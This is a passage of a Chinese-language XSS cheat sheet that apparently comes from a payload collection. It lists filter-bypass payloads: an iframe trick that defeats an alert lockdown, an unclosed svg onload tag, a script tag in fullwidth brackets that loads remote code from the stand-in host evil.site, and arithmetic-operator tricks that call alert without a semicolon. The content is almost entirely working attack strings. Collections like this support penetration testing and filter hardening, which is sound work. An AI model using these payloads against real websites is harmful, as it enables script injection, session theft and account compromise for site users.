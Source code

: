 使用替代方式触发警报的绕过

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// 绕过了安全性
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```

## 使用空字符绕过">"

无需关闭标签，浏览器会尝试修复它。

```javascript
<svg onload=alert(1)//
```

## 使用＜和＞绕过使用＜和＞

使用Unicode字符`U+FF1C`和`U+FF1E`，详见[Bypass using Unicode](#bypass-using-unicode)。

```javascript
＜script/src=//evil.site/poc.js＞
```

## 使用其他字符绕过";"

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```
